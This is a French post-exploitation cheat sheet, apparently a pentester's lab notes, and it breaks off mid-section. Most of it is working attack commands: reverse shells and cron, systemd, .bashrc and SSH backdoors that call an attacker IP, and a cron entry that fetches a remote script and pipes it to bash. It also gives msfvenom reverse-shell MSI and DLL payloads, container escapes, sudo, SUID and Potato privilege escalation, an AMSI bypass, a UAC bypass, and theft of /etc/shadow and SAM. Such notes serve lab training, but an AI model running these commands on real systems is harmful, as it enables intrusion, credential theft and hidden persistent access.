








# Post-Exploitation

> [!info] **C'est quoi ?**
> Une fois qu'on a un **foothold** (premier accès), il faut : **élever les privilèges**,
> **persister**, **se déplacer** et **évader la détection**.
---
## 1. Vue d'ensemble

### 1.1 Le cycle de vie complet

La post-exploitation démarre **après l'exploitation initiale** (reverse shell, webshell, payload Meterpreter, creds volés...). C'est la phase la plus riche : on y passe souvent **80 % du temps**, avec pour but de passer d'un accès « quelconque » au contrôle total du réseau, discrètement.

Les cinq objectifs dans l'ordre :
1. **Stabilisation** — transformer le foothold en session fiable et interactive.
2. **Énumération** — cartographier la machine : users, services, fichiers, réseau, AV/EDR.
3. **Privilege Escalation** — passer à `root` (Linux) ou `NT AUTHORITY\SYSTEM` (Windows).
4. **Credential dumping & Lateral movement** — voler des identifiants et se répandre.
5. **Persistance & Évasion** — garder l'accès sans se faire détecter (selon l'engagement).

> En lab (THM/HTB) on s'arrête souvent au **flag root/SYSTEM**. En engagement réel, les étapes 4 et 5 sont la priorité.

### 1.2 La kill chain de la post-exploitation



### 1.3 Le réflexe méthodique

> [!success] **Le mantra post-exploitation**
> *Énumérer AVANT d'exploiter. Automatiser POUR gagner du temps. Documenter EN MÊME TEMPS.*

Avant tout exploit, on répond à trois questions :
- **Qui suis-je ?** (`whoami`, `id`, groupes, privilèges, domaine ?)
- **Qu'est-ce que je vois ?** (OS, version, kernel, services, fichiers intéressants)
- **Qu'est-ce que je peux toucher ?** (machines du domaine, partages SMB, services locaux)
---
## 2. Stabilisation du shell

### 2.1 Reverse shell vs bind shell

| Type | Direction | Utilisation idéale | Inconvénient |
|------|-----------|--------------------|--------------|
| **Reverse shell** | Victime → Attaquant | Firewall qui filtre l'entrant | Nécessite un listener joignable |
| **Bind shell** | Attaquant → Victime | Victime sans accès sortant | Port ouvert = détectable |
| **HTTPS** | Victime → Attaquant | Egress HTTP(S) filtré | Nécessite un webserver C2 |

> Tous les payloads de base : [[Techniques/Reverse Shells]]. Outils : [[Outil - Netcat]], [[Outil - Ncat]], [[Outil - socat]].

```bash
nc -lvnp 4444                                  # listener attaquant
ncat -lvnp 4444 --keep-open                    # + reconnection
socat TCP-LISTEN:4444,reuseaddr,fork EXEC:/bin/bash,pty,stderr,setsid,sigint
```

### 2.2 Upgrader un shell en TTY complet (Linux)

Un reverse shell `bash`/`nc` n'a ni job control, ni `su`/`sudo` fonctionnel. Le transformer en **TTY interactif** :

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'   # spawn PTY
# (Ctrl+Z) puis sur le shell LOCAL :
stty raw -echo; fg
export TERM=xterm SHELL=bash                      # variables terminal
stty rows 50 cols 200
```

Alternatives sans python : `perl -e 'use POSIX; system("bash")'`, `ruby -e 'exec "/bin/sh"'`, ou socat :
```bash
# attaquant / victime
socat file:`tty`,raw,echo=0 tcp-listen:4444
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.5:4444
```

### 2.3 Réflexe de survie de session

```bash
tmux new -s pentest                         # se protéger des pertes de connexion
# Noter : IP locale/victime, users, creds, chemins des payloads
# Windows : passer à un shell stable (ssh, winrm, psexec) dès que possible
# Ne JAMAIS tuer un processus système en testant un exploit
```
---
## 3. Linux — Énumération

> Fiche détaillée : [[Techniques/Privilege Escalation Linux| Privesc Linux]]

### 3.1 Automatisation d'abord

```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh -o linpeas.sh
./linpeas.sh -a > linpeas.out   # -a = toutes les checks, garder la sortie
# Alternatives : linEnum.sh, linux-exploit-suggester.sh, linenum.sh
```

### 3.2 Système & utilisateurs

```bash
uname -a; cat /etc/os-release; cat /proc/version   # kernel + OS
id; whoami; cat /etc/passwd; cat /etc/shadow       # identité + comptes
cat /etc/group; ls -la /home/                      # groupes (docker, lxd, adm...) + homes
getent passwd                                      # via NSS (LDAP inclus)
```

> `/etc/passwd` monde-lisible est normal ; **`/etc/shadow` lisible en non-root = faille directe**. Vérifier aussi les comptes en doublon avec `UID 0`.

### 3.3 Réseau & services internes

```bash
ip a; ip route; hostname; cat /etc/hosts /etc/resolv.conf
ss -tlnp                          # ports en écoute (dont 127.0.0.1 !)
ss -tunap; arp -a                 # connexions actives + voisins → lateral movement
```

### 3.4 Processus, sudo, historiques & configs

```bash
ps aux --forest                   # services, agents, sessions
systemctl list-timers             # timers systemd (remplacent cron)
sudo -l; ls -la /etc/sudoers.d/ 2>/dev/null
cat ~/.bash_history /home/*/.bash_history 2>/dev/null
ls -la /.dockerenv 2>/dev/null && echo "CONTENEUR"
find / -name "*.conf" -o -name "*.env" -o -name "*.sql" -o -name "*.bak" 2>/dev/null
grep -rniE "password|passwd|secret|token" /etc /home /var/www /opt 2>/dev/null | grep -v Binary
cat /etc/mysql/debian.cnf 2>/dev/null; cat /opt/docker-compose.yml 2>/dev/null
```
---
## 4. Linux — Privesc

### 4.1 Les 10 classes à vérifier (manuel)

```bash
# 1. Sudo - binaires autorisés → si listé, check GTFOBins !
sudo -l
# 2. SUID → GTFOBins : python, vim, find, base64, env...
find / -perm -4000 -type f 2>/dev/null
# 3. Cron / timers → script root modifiable = RCE root
cat /etc/crontab; ls -la /etc/cron.d/; systemctl list-timers
# 4. Capabilities → /usr/bin/python3 cap_setuid=ep = root
getcap -r / 2>/dev/null
# 5. PATH modifiable → faux "ls" dans un dossier du PATH
echo $PATH
# 6. Kernel → searchsploit <version> (DirtyCow, overlayfs...)
uname -a
# 7. Docker / LXC → groupe docker = root direct
id | grep docker
# 8. Fichiers d'intérêt → creds, clés, backups
find / -name "id_rsa" -o -name "*.pem" 2>/dev/null
# 9. NFS no_root_squash → SUID binary via l'export
showmount -e 192.168.1.10
# 10. Services en interne / ports localhost
ss -tlnp; curl http://127.0.0.1:8080
```

### 4.2 Sudo — les cas typiques

| Technique | Condition | Exemple |
|-----------|-----------|---------|
| **GTFOBins sudo** | Binaire autorisé avec escape | `sudo find / -exec /bin/sh -p \; -quit` |
| **NOPASSWD + script modifiable** | Script root éditable | ajouter `/bin/bash` au script |
| **sudoers.d caché** | Droit dans un include | `cat /etc/sudoers.d/*` |
| **LD_PRELOAD/LD_LIBRARY_PATH** | `env_keep` les conserve | `.so` qui lance `/bin/sh` |
| **CVE-2019-14287** | vieux sudo | `sudo -u#-1 /bin/bash` |
| **CVE-2021-3156 (Baron Samedit)** | sudo < 1.9.5p2 | exploit dédié |

```bash
# LD_PRELOAD : compiler puis lancer avec sudo
gcc -fPIC -shared -o /tmp/x.so -x c - <<EOF
#include <stdlib.h>
void _init(){ setuid(0); setgid(0); system("/bin/bash -p"); }
EOF
sudo LD_PRELOAD=/tmp/x.so <commande-sudo>
```

### 4.3 GTFOBins — LE réflexe

> [!success] **[GTFOBins](https://gtfobins.github.io) = la référence**
> Dès qu'un binaire est sudo/SUID/autorité, regarder sa page GTFOBins.

```bash
sudo -u root /usr/bin/find / -exec /bin/sh -p \; -quit
/usr/bin/vim -c ':py3 import os; os.execl("/bin/sh","sh","-c","reset; exec sh -p")'
/usr/bin/python3 -c 'import os; os.setuid(0); os.system("/bin/bash -p")'
/usr/bin/base64 /etc/shadow | base64 -d
tmux -S /tmp/sess list-sessions   # sessions d'autres users (ou screen -ls)
nmap --interactive                # !sh
```

### 4.4 SUID — binaires courants et escape

| Binaire SUID courant | Escape | Risque |
|----------------------|--------|--------|
| `/usr/bin/find` | `-exec /bin/sh -p` | RCE direct |
| `/usr/bin/vim` | `:py3 os.execl(...)` | RCE direct |
| `/usr/bin/python3` | `os.setuid(0)` | RCE direct |
| `/usr/bin/env` | `env /bin/sh` | RCE direct |
| `/usr/bin/base64` | lecture `/etc/shadow` | exfiltration |
| `/usr/bin/tar` | `--checkpoint-action=exec=/bin/sh` | RCE direct |
| `/usr/bin/less` / `more` | `!/bin/sh` | RCE direct |
| `/usr/bin/pkexec` | **PwnKit** (pkexec < 0.105) | RCE direct |

```bash
# SUID non standards (souvent app ajoutées par l'admin)
find / -perm -4000 -type f 2>/dev/null | grep -v -E "^(/usr/bin/(passwd|chsh|chfn|newgrp|gpasswd|mount|umount|su|sudo)|/usr/sbin/|/usr/lib/openssh/)"
# Tar wildcard (si root fait tar * dans un dossier) :
echo '/bin/sh -p' > shell.sh; echo '--checkpoint-action=exec=sh shell.sh' > /tmp/x
```

### 4.5 Capabilities

| Capability | Effet | Utilisation |
|-----------|-------|-------------|
| `cap_setuid=ep` | imiter le SUID root | `python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'` |
| `cap_setgid=ep` | changer de groupe | `perl -e 'setgid(0);exec "/bin/sh"'` |
| `cap_dac_read_search` | lire tous les fichiers | copier `/etc/shadow` |
| `cap_dac_override` | ignorer les permissions | écrire dans `/etc/passwd` |
| `cap_sys_admin` | quasi-admin | mounts, namespaces |

### 4.6 Cron & PATH hijacking

```bash
cat /etc/crontab; ls -la /etc/cron.*/; systemctl list-timers
# 3 attaques : script root modifiable / PATH relatif / wildcard (tar *)
mkdir /tmp/bin; printf '#!/bin/bash\n/bin/bash -p\n' > /tmp/bin/ls; chmod +x /tmp/bin/ls
export PATH=/tmp/bin:$PATH
```

### 4.7 NFS & services locaux

```bash
showmount -e <IP>; mount -t nfs <IP>:/export /mnt
# no_root_squash → cp /bin/bash /mnt/bash; chmod u+s /mnt/bash → /mnt/bash -p
ss -tlnp; curl -s http://127.0.0.1:8080   # services internes oubliés
mysql -u root -e "show databases;" 2>/dev/null
```

### 4.8 Exploits kernel (en dernier recours)

```bash
uname -r; searchsploit linux kernel <version>; linux-exploit-suggester.sh
```
---
## 5. Linux — Crédentials & Fichiers d'intérêt

### 5.1 Mots de passe, clés SSH, backups

```bash
find / -iname "*.conf" -o -iname "*.cfg" -o -iname "*.env" -o -iname "*.bak" -o -iname "*.db" -o -iname "*.sqlite" 2>/dev/null
cat /opt/*/.env /var/www/html/.env 2>/dev/null        # .env = jackpot
for u in /home/*; do echo "== $u =="; cat $u/.bash_history 2>/dev/null; done
find / -name "id_rsa" -o -name "*.pem" -o -name "id_ecdsa" 2>/dev/null
cat /home/*/.ssh/known_hosts 2>/dev/null               # machines connectées
cat /etc/ssh/sshd_config 2>/dev/null | grep -iE "PermitRoot|PasswordAuth"
```

### 5.2 Mémoire & configs applicatives

```bash
# En root : lire la mémoire d'un processus
gdb -p <PID> -batch -ex "dump memory /tmp/d.dmp" -ex detach
strings /tmp/d.dmp | grep -iE "password|passwd|secret"
find / -name "core*" -o -name "*.core" 2>/dev/null     # core dumps
grep -rE "Environment=.*(PASS|KEY|SECRET)" /etc/systemd/system/ /lib/systemd/system/ 2>/dev/null
cat /etc/mysql/debian.cnf 2>/dev/null
```
---
## 6. Linux — Escapes conteneurs & Kernel

### 6.1 Détecter qu'on est dans un conteneur

```bash
ls -la /.dockerenv 2>/dev/null
cat /proc/1/cgroup | grep -E "docker|kubepods|lxc"
mount | grep overlay; capsh --print | grep cap_sys_admin
```

### 6.2 Docker — les escapes classiques

```bash
# 1. Groupe docker → root direct
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
# 2. Socket docker monté dans le conteneur
docker -H unix:///var/run/docker.sock run -v /:/host --rm -it alpine sh
# 3. Conteneur --privileged → cgroup release_agent
mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=$(sed -n 's/.*\perdir=\([^,]*\)\/.*/\1/p' /etc/mtab)
echo "$host_path/cmd" > /tmp/cgrp/release_agent
printf '#!/bin/sh\ncat /etc/shadow > %s/shadow\n' "$host_path" > /cmd
chmod +x /cmd; sh -c "echo $$ > /tmp/cgrp/x/cgroup.procs"
```

### 6.3 LXC / LXD & nsenter

```bash
# Groupe lxd → image alpine privilégiée
lxc image import alpine.tar.gz --alias myimage
lxc init myimage c -c security.privileged=true
lxc config device add c mydevice disk source=/ path=/mnt/root
lxc start c; lxc exec c /bin/sh
# nsenter : entrer dans un autre namespace (root conteneur → hôte)
nsenter --target <PID-hôte> --mount --uts --ipc --net --pid -- /bin/bash
```

### 6.4 CDK & workflow exploit kernel

[CDK](https://github.com/cdk-team/CDK) = outil de référence pour l'évasion de conteneurs. Trois classes de vulnérabilités : **kernel partagé** (DirtyCow, DirtyPipe, CVE-2022-0185), **mounts abusifs** (`docker.sock`, secrets kubelet), **capabilities sur-étendues** (`CAP_SYS_ADMIN` + cgroup, `CAP_NET_ADMIN` → pivots).



> Les exploits kernel **crash souvent la machine** : toujours **snapshot avant**, vérifier arch/version, et les garder pour **fin de partie**.
---
## 7. Windows — Énumération

> Fiche détaillée : [[Techniques/Privilege Escalation Windows| Privesc Windows]]

### 7.1 Automatisation

```powershell
.\winpeas.exe quiet
# Alternatives : seatbelt.exe, PrivescCheck.ps1, PowerUp.ps1
Import-Module .\PowerUp.ps1; Invoke-AllChecks
```

### 7.2 Système, users, domaine

```powershell
systeminfo                             # OS, build, hotfixes
whoami /all; whoami /priv              # identité + groupes + privilèges
net user; net localgroup Administrators
net group "Domain Admins" /domain; nltest /dclist:<domaine>
[System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
```

### 7.3 Réseau, processus, services

```powershell
ipconfig /all; arp -a; netstat -ano | findstr LISTENING
tasklist /v; wmic process list full
Get-Process | Where-Object {$_.ProcessName -match "defend|symantec|crowd|sentinel|cb|sophos|trend|avast"}
wmic service list full; sc query state= all
Get-Service | Where-Object {$_.Status -eq "Running"} | Select Name,PathName
```

### 7.4 Historique PowerShell, fichiers clés, WMI

```powershell
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
type C:\Windows\Panther\unattend.xml                  # creds en clair parfois
Get-WmiObject -Class Win32_QuickFixEngineering | Select HotFixID
Get-WmiObject -Class Win32_LoggedOnUser
Get-WmiObject -Class Win32_UserAccount -Filter "LocalAccount='True'" | Select Name,SID
```

### 7.5 Privilèges à surveiller en priorité

`SeImpersonatePrivilege`, `SeAssignPrimaryTokenPrivilege`, `SeBackupPrivilege`, `SeRestorePrivilege`, `SeDebugPrivilege`, `SeLoadDriverPrivilege`, `SeTakeOwnershipPrivilege`. Leur abus : sections 8.5 et 9.
---
## 8. Windows — Privesc

### 8.1 Les classes critiques (manuel)

```powershell
# 1. Qui suis-je / privilèges → SeImpersonatePrivilege → Potato
whoami /priv; whoami /groups
# 2. Historique PowerShell
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
# 3. Dossiers en écriture
icacls C:\Windows\Tasks C:\ProgramData 2>&1 | Select-String -Pattern "BUILTIN|Users"
# 4. Services → unquoted path / binaire modifiable / binPath configurable
wmic service list full
sc qc <service>
accesschk.exe /accepteula -uwcqv "Authenticated Users" *   # Sysinternals
# 5. Tâches planifiées
schtasks /query /fo LIST /v | findstr /i "task run"
# 6. Creds en clair dans le registre / fichiers
reg query HKLM /f password /t REG_SZ /s; reg query HKCU /f password /t REG_SZ /s
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"   # autologon
type C:\Windows\Panther\unattend.xml
# 7. AlwaysInstallElevated → MSI en SYSTEM
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
# 8. Tokens (incognito) : use incognito / list_tokens -u / impersonate_token ...
```

### 8.2 Services Windows en profondeur

Chaque service a trois facettes à tester :

1. **Unquoted path** : le chemin du binaire contient des espaces et n'est pas entre guillemets.
2. **Binaire/dossier modifiable** : permissions du `.exe` ou de son dossier.
3. **Droits de configuration** : peut-on changer `binPath` (via `sc config` / AccessChk) ?

```powershell
# Trouver les services avec un chemin non quoté
wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v "\""
# C:\Program Files\My App\svc.exe  → on dépose C:\Program.exe puis sc start <svc>
# (Windows essaie : "C:\Program.exe", puis "C:\Program Files\My.exe", puis...)
# binaire modifiable :
accesschk.exe /accepteula -ucqv <service>
# changer binPath :
sc config <svc> binPath= "cmd /c C:\Users\Public\p.exe"; sc start <svc>
```

### 8.3 AlwaysInstallElevated & ACLs

```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
# Si les deux = 1 → tout MSI s'installe en SYSTEM :
msfvenom -p windows/x64/shell_reverse_tcp LHOST=x LPORT=4444 -f msi -o evil.msi
msiexec /quiet /qn /i evil.msi

# Dossiers systèmes en écriture par les Users → DLL hijacking possible
icacls C:\Windows\Tasks C:\Windows\Temp C:\ProgramData
```

### 8.4 Privilèges Windows « sous-cotés »

| Privilège | Abus |
|-----------|------|
| `SeImpersonatePrivilege` | Potatoes (Juicy, PrintSpoofer, GodPotato...) |
| `SeAssignPrimaryTokenPrivilege` | Potatoes anciennes |
| `SeBackupPrivilege` | lire n'importe quel fichier (SAM...) via Robocopy |
| `SeRestorePrivilege` | écrire n'importe où (même en SYSTEM) |
| `SeDebugPrivilege` | injection / dump lsass |
| `SeTakeOwnershipPrivilege` | prendre possession de fichiers système |
| `SeLoadDriverPrivilege` | charger un driver malveillant |

```powershell
# SeBackupPrivilege → copier SAM :
robocopy /b C:\Windows\System32\config C:\Temp\copy
# puis : secretsdump.py -sam C:\Temp\copy\SAM -system C:\Temp\copy\SYSTEM local
```

### 8.5 Credential files, configs & exploits

```powershell
cmdkey /list                                # Credential Manager
vaultcmd /listcreds:"Windows Credentials"
type C:\inetpub\wwwroot\web.config | findstr /i "password connectionString"
netsh wlan show profile <name> key=clear    # clefs WiFi en clair
```

| CVE | Nom | Surface |
|-----|-----|---------|
| CVE-2021-1675 / 34527 | **PrintNightmare** | spoolsv → SYSTEM |
| CVE-2021-36934 | **HiveNightmare / SeriousSAM** | ACL SAM → lire SAM |
| CVE-2022-37985 / noPac | **SamAccountName** | SPN contrôlé → DC |
| CVE-2020-1472 | **Zerologon** | compromission DC |
| CVE-2023-28252 | clfs.sys LPE | Windows 11 |

> **Jamais d'exploit kernel Windows sans vérifier le build exact** + snapshot. 80 % de la privesc Windows = misconfig (services, ACLs, AlwaysInstallElevated, creds en clair).
---
## 9. Windows — Potatoes & Tokens

### 9.1 Le principe

Le service d'impression (**spoolsv.exe**) tourne en **SYSTEM**. Avec `SeImpersonatePrivilege` (comptes de service), on **vol/impersone un token** d'un processus SYSTEM en lui faisant croire qu'on est un serveur COM/SMB.



```bash
PrintSpoofer.exe -i -c cmd
GodPotato.exe -cmd "cmd /c whoami"
# (les versions comptent : beaucoup sont détectées maintenant)
```

### 9.2 Le comparatif des Potatoes

| Outil | Versions cibles | Commentaire |
|-------|-----------------|-------------|
| **JuicyPotato** | Win7–10 1809 / Srv 2008–2019 | vieux, bloque sur les builds récents |
| **RoguePotato** | Win10 1809+, Srv 2019+ | MS-RPC middlebox |
| **PrintSpoofer** | Win10 / Srv 2016+ | exploite **spoolsv** → très fiable |
| **GodPotato** | Win10 1809+ | NtImpersonate via DCOM, fiable |
| **SweetPotato** | Win10 / Srv | multi-variantes |

### 9.3 SeImpersonate vs SeAssignPrimaryToken vs SeDelegateSessionUserImpersonate

- **SeImpersonatePrivilege** : impersoner un token déjà créé → toutes les potatoes.
- **SeAssignPrimaryTokenPrivilege** : assigner un token primaire à un processus → RoguePotato legacy.
- **SeDelegateSessionUserImpersonatePrivilege** : variante Srv 2019+ (comptes RDP/AppPool).
- **SeIncreaseQuotaPrivilege** : parfois abusé pour lancer un processus avec un token donné.

### 9.4 Incognito & restrictions

```text
meterpreter > use incognito
meterpreter > list_tokens -u
meterpreter > impersonate_token "LAB\Administrator"
meterpreter > steal_token <PID>
```

- Les tokens **network logon** sont **filtrés** : pas de `Administrators` utilisable.
- Un token **Medium Integrity** ne peut pas impersoner High/SYSTEM.
- **UAC** : il faut d'abord un UAC bypass (section 11) pour le vrai token admin.
- Certaines versions de potatoes **plantent le spoolsv** → tester proprement.
---
## 10. Windows — DLL Hijacking

> Fiche détaillée : [[Techniques/DLL Hijacking| DLL Hijacking]]

### 10.1 Ordre de recherche des DLL

Quand un processus charge une DLL, Windows cherche dans **cet ordre** :

1. Dossier de l'application
2. Répertoires système (`System32`, `SysWOW64`)
3. Répertoire Windows
4. Répertoire courant (déprécié)
5. Dossiers du PATH

Si l'app charge une DLL **absente** du premier dossier et qu'on peut **écrire dedans** → on y met notre DLL.

### 10.2 La méthode Procmon



```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=x LPORT=4444 -f dll -o evil.dll
sc stop <service>; sc start <service>
# Unquoted path (rappel) : C:\Program Files\MyApp\MyService\svc.exe
# → créer C:\Program Files\MyApp\MyService.exe
```

### 10.3 Phantom DLL, sticky keys, IFEO

- **Phantom DLL** : DLL référencée mais absente d'un service légitime (`wbemcomn.dll`, `version.dll`...) → le processus la charge depuis notre dossier.
- **Sticky Keys** : `sethc.exe`/`utilman.exe`/`narrator.exe`/`osk.exe` lancés **en SYSTEM** à l'écran de login. Si on écrit sur `System32` : `copy /y cmd.exe C:\Windows\System32\sethc.exe` puis 5× Shift au login.
- **IFEO** : registre Debugger = payload lancé à la place du binaire visé (voir 13.6).
---
## 11. Windows — UAC bypass & AMSI/Defender evasion

### 11.1 UAC — rappel

L'UAC filtre le token d'un utilisateur admin : un processus normal obtient un **token Medium Integrity**. Les bypass lancent un processus **High Integrity** sans confirmation, via des exécutables auto-élevés (`autoElevate=true`).

### 11.2 fodhelper et ses variantes

```powershell
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /d "cmd.exe" /f
reg add HKCU\Software\Classes\ms-settings\Shell\Open\command /v DelegateExecute /t REG_SZ /f
fodhelper.exe
```

| Exécutable | Clé `HKCU\Software\Classes\...\Shell\Open\command` |
|-----------|----------------------------------------------------|
| `fodhelper.exe` | `ms-settings` |
| `computerdefaults.exe` | `ms-settings` |
| `eventvwr.msc` | `mscfile` |
| `compmgmtlauncher.exe` | `mscfile` |
| `sdclt.exe` | `sdclt` |

```powershell
# Nettoyage :
reg delete "HKCU\Software\Classes\ms-settings" /f
```

### 11.3 AMSI — comment le contourner

L'AMSI envoie le contenu des scripts à l'AV **avant exécution**. Contours :

```powershell
# 1. amsiInitFailed (le plus connu, très détecté)
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
# 2. Patch en mémoire de AmsiScanBuffer (la référence, avec xor/obfuscation)
# 3. Downgrade PowerShell (souvent bloqué par politique) :
powershell -version 2
# 4. Charger du pur C# / assembly in-memory (section 21.5)
```

### 11.4 Obfuscation, Defender & ETW

```powershell
# Journalisation ScriptBlock (Event 4104) :
Get-ItemProperty "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -ErrorAction SilentlyContinue
# Defender :
Get-MpComputerStatus | Select AMRunningMode,RealTimeProtectionEnabled
Add-MpPreference -ExclusionPath C:\Windows\Temp     # admin uniquement
```

> **Tamper Protection** (Win11) empêche la désactivation de Defender même en admin. Les contournements « propres » : compiler son payload, vivre off the land, éviter les signatures.
> **ETW patch / unhooking** : patcher `EtwEventWrite` ou restaurer les hooks de `ntdll.dll` pour que l'EDR ne voie plus le processus (outils : SharpUnhooker, Hunt-Sleeping-Beacons, Sliver).
---
## 12. Linux — Persistance

### 12.1 Cron, systemd, shell rc

```bash
# Cron root
echo "* * * * * root curl http://10.10.14.5/p.sh | bash" >> /etc/crontab
echo "* * * * * root /bin/bash /tmp/x.sh" > /etc/cron.d/backdoor
# Systemd unit
cat > /etc/systemd/system/backdoor.service <<EOF
[Service]
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'
Restart=always
[Install]
WantedBy=multi-user.target
EOF
systemctl enable backdoor && systemctl start backdoor
# Shell rc (à chaque login)
echo "bash -i >& /dev/tcp/10.10.14.5/4444 0>&1" >> /home/victim/.bashrc
echo "bash -i >& /dev/tcp/10.10.14.5/4444 0>&1" > /etc/profile.d/backdoor.sh
chmod +x /etc/profile.d/backdoor.sh
```

### 12.2 SSH & LD_PRELOAD

```bash
# authorized_keys (le plus simple et fiable)
echo "ssh-rsa AAA... attacker" >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
# Config SSH qui détourne un client :
cat > /root/.ssh/config <<EOF
Host *
    ProxyCommand bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'
EOF
# LD_PRELOAD global (tous les programmes) :
